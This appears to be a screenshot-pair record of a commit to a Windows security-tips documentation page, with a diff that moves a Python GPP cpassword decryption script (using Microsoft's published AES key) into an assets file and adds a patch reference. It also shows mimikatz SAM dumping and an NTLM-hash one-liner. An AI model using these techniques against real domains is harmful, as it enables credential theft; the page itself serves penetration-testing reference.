

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/windows.md, in a window 1280 px wide and 1400 px high, scrolled down 3225 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add assets folder

````diff
--- a/docs/windows.md
+++ b/docs/windows.md
@@ -1,6 +1,4 @@
-Windows
-=======
-
+# Windows
 
 ### List SPN accounts
 
@@ -150,45 +148,19 @@ foreach($user in $DomainAdmins) { echo "$($user.displayname) ($($user.samaccount
 
 
 ### Decrypt GPO with cpassword
-```python
-#!/usr/bin/python
 
-import sys
-import binascii
+Some `Group Policy Preferences` (GPP) GPO stored at `\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`
+contains an account credentials for administration on a remote host.
+The credentials are encrypted using a [static AES key provided by Microsoft](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN).
+A domain user can access the GPP XML files on read the encrypted password. To
+get the clear text credentials the [Python script can be used](./assets/cpassword.py).
 
-from Crypto.Cipher import AES
-from base64 import b64decode
-
-unpad = lambda s: s[:-1 * ord(s[-1])]
-
-def decrypt(cpassword):
-    # Init the key
-    # From MSDN: http://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be%28v=PROT.13%29#endNote2
-    key = binascii.unhexlify("4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b")
-
-    # Add padding to the base64 string and decode it
-    cpassword += "=" * ((4 - len(cpassword) % 4) % 4)
-    password = b64decode(cpassword)
-    o = AES.new(key, AES.MODE_CBC, "\x00" * 16).decrypt(password)
-
-    return unpad(o).decode("utf16")
-
-def main():
-    if len(sys.argv) != 2:
-        print("Usage: gpprefdecrypt.py <cpassword>")
-        sys.exit(0)
-
-    cpassword = sys.argv[1]
-    o = decrypt(cpassword)
-
-    print o
-
-if __name__ == "__main__":
-    main()
-```
+This [article on AdSecurity](https://adsecurity.org/?p=2288) presents other tools
+and the protection ([KB2962486](https://support.microsoft.com/en-us/help/2962486/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevati)).
 
 
 ### Use Win32 API in Python
+
 Download then install the pip package `pywin32` here: [https://www.lfd.uci.edu/~gohlke/pythonlibs/#pywin32](https://www.lfd.uci.edu/~gohlke/pythonlibs/#pywin32)
 
 
@@ -242,7 +214,7 @@ $ lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
 ```python
 import hashlib
 pwd = "password"
-print(hashlib.new('md4', f'{pwd}'.encode('utf-16le')).hexdigest())
+print(hashlib.new('md4', pwd.encode('utf-16le')).hexdigest())
 ```
 
 
````
Also changed, not shown: docs/assets/cpassword.py (added, +31 -0 lines), docs/spring_boot.md (+1 -1 lines), docs/assets/spring_boot.txt (renamed from docs/spring_boot.txt).
